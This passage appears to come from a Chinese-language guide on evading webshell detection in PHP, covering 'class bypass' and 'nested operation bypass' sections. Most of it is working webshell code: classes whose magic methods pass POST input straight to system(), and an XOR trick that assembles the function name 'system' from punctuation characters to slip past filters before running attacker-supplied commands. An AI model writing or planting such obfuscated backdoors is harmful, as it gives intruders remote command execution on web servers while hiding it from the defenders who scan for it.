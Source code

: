 ## 7# 类绕过

通过自定义类或者使用已知的类，将恶意代码放入对应的类中进行执行

### 7.1 单类

```bash
class Test
{
    public $_1='';
    function __destruct(){
        system("$this->a");
    }
}
$_2 = new Test;
$_2->$_1 = $_POST['aabyss'];
```

### 7.2 多类

```bash
class Test1
{
    public $b ='';
    function post(){
        return $_POST['aabyss'];
    }
}
class Test2 extends Test1
{
    public $code = null;
    function __construct(){
        $code = parent::post();
        system($code);
    }
}
$fff = new Test2;
$zzz = new Test1;
```

主要还是要用一些魔术方法来进行 ByPass

## 8# 嵌套运算绕过

主要通过各种嵌套、异或以及运算来拼装出来想要的函数，再利用 PHP 允许动态函数执行的特点，拼接处高危函数名，如 `system` ，然后动态执行恶意代码之即可

### 8.1 异或

`^` 为异或运算符，在 PHP 中两个变量进行异或时，会将字符串转换成二进制再进行异或运算，运算完再将结果从二进制转换成了字符串

```bash
$f = ('.'^']').('$'^']').('.'^']').('4'^'@').('8'^']').(']'^'0');   //system 高危函数
$f = ('.$.48]' ^ ']]]@]0');   //等同于这样
$f($_POST['aabyss']);
```
